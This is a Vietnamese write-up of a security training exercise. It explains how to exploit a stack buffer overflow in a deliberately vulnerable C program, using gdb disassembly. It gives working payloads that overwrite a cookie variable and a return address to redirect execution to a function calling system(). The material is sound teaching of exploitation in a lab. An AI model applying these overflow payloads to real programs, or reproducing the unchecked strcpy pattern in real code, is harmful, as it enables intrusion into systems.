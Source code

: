 # Solution

> Người viết bài còn tuy thiếu kinh nghiệm nhưng đề cao tinh thần học hỏi. Mọi sai sót vui lòng bỏ qua 🙂 .
Pwn
> Trình bày cách giải của bạn ở level 02 & 03 trong ví dụ 2 của bài training. Người chiến thằng là người có bài viết giải thích rõ ràng nhất. Materials: https://github.com/lamminhbao/sectrain2018
## Level 2

Vì chúng ta có source code → nên ta biết hàm `f` thực hiện tạo biến `cookie` và xử lí chuỗi `s` nhập vào:

    void f(char* input) {
            int cookie = 0;
            char s[32];
            strcpy(s, input);
    
            if (cookie){
                    printf("Cookie changed - You win level 00.\n");
            }
            if (cookie == 0x41424344) {
                    printf("Cookie to 0x%x  - You win level 01.\n", cookie);
            }
            if (cookie == 0x01020304) {
                    printf("Cookie to 0x%x  - You win level 02.\n", cookie);
            }
            printf("%p\n", s);
    }

Biến `cookie` ban đầu được gán bằng `0`. Để win level 2 thì cần phải thay đổi giá trị của `cookie` thành các giá trị cho phù hợp.
Chương trình xài hàm `strcpy` cũ kỹ dễ bị lỗi buffer overflow. Như vậy có thể lợi dụng lỗi này của `strcpy` để tràn qua vùng nhớ của biến `cookie`.
Vấn đề là chúng ta không biết chương trình sẻ dụng compiler gì và như thế nào (mặc kệ dòng comment `// gcc -m32 -z execstack -fno-stack-protector ex02.c -o ex02`) nên không thể chắc chắn được các biến `s` và `cookie` được sắp xếp như thế nào trong stack. Vì vậy cần disasemble để kiểm tra:

1. Chạy `gdb` load file `ex02`
    gdb-peda$ file ex02
    Reading symbols from ex02...(no debugging symbols found)...done.
2. Vì xử lý chính là hàm `f` nên kiểm tra hàm này:
    ```gdb-peda$ disassemble f
    Dump of assembler code for function f:
       0x080484b4 <+0>:        push   ebp
       0x080484b5 <+1>:        mov    ebp,esp
       0x080484b7 <+3>:        sub    esp,0x38
       0x080484ba <+6>:        mov    DWORD PTR [ebp-0xc],0x0
       0x080484c1 <+13>:        sub    esp,0x8
       0x080484c4 <+16>:        push   DWORD PTR [ebp+0x8]
       0x080484c7 <+19>:        lea    eax,[ebp-0x2c]
       0x080484ca <+22>:        push   eax
       0x080484cb <+23>:        call   0x8048350 <strcpy@plt>
       0x080484d0 <+28>:        add    esp,0x10
       0x080484d3 <+31>:        cmp    DWORD PTR [ebp-0xc],0x0
       0x080484d7 <+35>:        je     0x80484e9 <f+53>
       0x080484d9 <+37>:        sub    esp,0xc
       0x080484dc <+40>:        push   0x80485f8
       0x080484e1 <+45>:        call   0x8048360 <puts@plt>
       0x080484e6 <+50>:        add    esp,0x10
       0x080484e9 <+53>:        cmp    DWORD PTR [ebp-0xc],0x41424344
       0x080484f0 <+60>:        jne    0x8048505 <f+81>
       0x080484f2 <+62>:        sub    esp,0x8
       0x080484f5 <+65>:        push   DWORD PTR [ebp-0xc]
       0x080484f8 <+68>:        push   0x804861c
       0x080484fd <+73>:        call   0x8048340 <printf@plt>
       0x08048502 <+78>:        add    esp,0x10
       0x08048505 <+81>:        cmp    DWORD PTR [ebp-0xc],0x1020304
       0x0804850c <+88>:        jne    0x8048521 <f+109>
       0x0804850e <+90>:        sub    esp,0x8
       0x08048511 <+93>:        push   DWORD PTR [ebp-0xc]
       0x08048514 <+96>:        push   0x8048644
       0x08048519 <+101>:        call   0x8048340 <printf@plt>
       0x0804851e <+106>:        add    esp,0x10
       0x08048521 <+109>:        sub    esp,0x8
       0x08048524 <+112>:        lea    eax,[ebp-0x2c]
       0x08048527 <+115>:        push   eax
       0x08048528 <+116>:        push   0x8048669
       0x0804852d <+121>:        call   0x8048340 <printf@plt>
       0x08048532 <+126>:        add    esp,0x10
       0x08048535 <+129>:        nop
       0x08048536 <+130>:        leave  
       0x08048537 <+131>:        ret    
    End of assembler dump.

Ở dòng 11 ta thấy có lệnh gọi hàm con `strcpy`:

    0x080484cb <+23>:        call   0x8048350 <strcpy@plt>

Trong file source ta thấy hàm `f` tạo biến `cookie` và mảng `s` trước khi gọi hàm `strcpy`. Ở đây ta đang quan tâm đến `cookie` và `s` nên trong đoạn asm trên là chỉ cần quan tâm đến 10 dòng đầu:

- `0x080484b4 <+0>:        push   ebp` đẩy `ebp` lên stack
- `0x080484b5 <+1>:        mov    ebp,esp` copy giá trị của `esp` vào `ebp`
- `0x080484b7 <+3>:        sub    esp,0x38` đầy stack xuống `0x38`=`56` ô nhớ (giả sử 1 ô nhớ = 1 byte) vì trong kiến trúc Intel x86 (chương trình được complile cho kiến trúc này) stack phát triển từ xuống → allocate vùng nhớ trên stack cho các biến local của hàm (`f`).

Vẫn chưa có gì đáng chú ý cho đến dòng:

- `0x080484ba <+6>:        mov    DWORD PTR [ebp-0xc],0x0` lưu số nguyên 4 bytes `0x0`=0 vào địa chỉ của `ebp-12` (`0xc`=`12`); dòng này  tương đương `int cookie = 0` trong chương trình nguồn.
- `0x080484c1 <+13>:        sub    esp,0x8` allocate 8 bytes vào đầu stack
- `0x080484c4 <+16>:        push   DWORD PTR [ebp+0x8]` đẩy 4 bytes bắt đầu từ `ebp+0x8` lên trên cùng của stack. Dòng này liên quan đến `char* input` trong source code.
- `0x080484c7 <+19>:        lea    eax,[ebp-0x2c]` lưu địa chỉ của `ebp-0x2c` vào `eax`, địa chỉ này chính là địa chỉ của mảng `s`.
- `0x080484ca <+22>:        push   eax` đưa eax lên đầu stack.

Từ đó ta có thể thấy vị trí của `s` là `ebp-44` (`0x2c`=`44`), còn `cookie`  có vị trí `ebp-12`. 2 địa chỉ này cách nhau `44-12`=`32` ô nhớ. Như vậy có thể tạm kết luận compiler đã sắp xếp `cookie` nằm trên `s` trong stack. Chương trình theo quy tắc little-endian (do compile trên x86) nên dự liệu sẽ được ghi ngược lại từ phải qua trái: với giá trị `0x01020304` thì máy sẽ lưu là `04 03 02 01`.
Như vậy, vần đề còn lại chỉ làm làm tràn bộ nhớ bằng cách nhập quá 32 ký tự và thay đổi giá trj biến `cookie` thành `0x01020304`. 
Tuy nhiên, thử đổi `0x01020304` sang ASCII, ta được:

- `01` = `SOH`
- `02` = `STX`
- `03` = `ETX`
- `04` = `EOT`

Đây là những ký tự không có trên bàn phím và không thể nhập trực tiếp. Tuy nhiên có cách để giải quyết vần đề này bằng cách sử dụng `echo` để truyền ký tự:

    ./ex02 `echo -e "AhihiAhihiAhihiAhihiAhihiAhihi:>\x04\x03\x02\x01"`

→ Kết quả thu được:

    root@bach-kali:~/Desktop/sectrain2018# ./ex02 `echo -e "AhihiAhihiAhihiAhihiAhihiAhihi:>\x04\x03\x02\x01"`
    Cookie changed - You win level 00.
    Cookie to 0x1020304  - You win level 02.
## Level 3

Ở thử thách này thì chúng ta cần phải thay đổi luồng thực thi để chương trình chạy hàm `abcxyz`.
Vì địa chỉ trở về nằm trên `ebp` nên cần overflow qua cả `ebp` và ghi đè lên ô địa chỉ trả về.
Câu hỏi đặt ra là ta cần bao nhiêu bytes để làm tràn qua `ebp`. Quan sát đoạn asm `0x080484c7 <+19>:        lea    eax,[ebp-0x2c]` ở trên ta có thể thấy địa chỉ của mảng `s` cách `ebp` 44 ô (`0x2c`). Bản thân `ebp` chiềm 4 bytes nên để tràn qua nó ta chỉ cần nhập đủ 48 bytes.
Bây giờ ta chỉ cần ghi đè địa chỉ bắt đầu của `abcxyz` lên địa chỉ trở về. Để biết được địa chỉ trở về nó ta chỉ cần disassemble `abcxyz`:
```gdb-peda$ disassemble abcxyz
Dump of assembler code for function abcxyz:
   0x0804849b <+0>:	push   ebp
   0x0804849c <+1>:	mov    ebp,esp
   0x0804849e <+3>:	sub    esp,0x8
   0x080484a1 <+6>:	sub    esp,0xc
   0x080484a4 <+9>:	push   0x8048600
   0x080484a9 <+14>:	call   0x8048360 <puts@plt>
   0x080484ae <+19>:	add    esp,0x10
   0x080484b1 <+22>:	sub    esp,0xc
   0x080484b4 <+25>:	push   0x8048612
   0x080484b9 <+30>:	call   0x8048370 <system@plt>
   0x080484be <+35>:	add    esp,0x10
   0x080484c1 <+38>:	nop
   0x080484c2 <+39>:	leave  
   0x080484c3 <+40>:	ret    
End of assembler dump.
```

Như vậy địa chỉ bắt đầu của `abcxyz` là `0x0804849b`. Chỉ cần ghi đè giá trị này lên giá trị trả về là qua được level 3:
```
./ex02 `python -c 'print("f"*48+"\x9b\x84\x04\x08")'`
Cookie changed - You win level 00.
0xffe1bd8c
You win level 03.
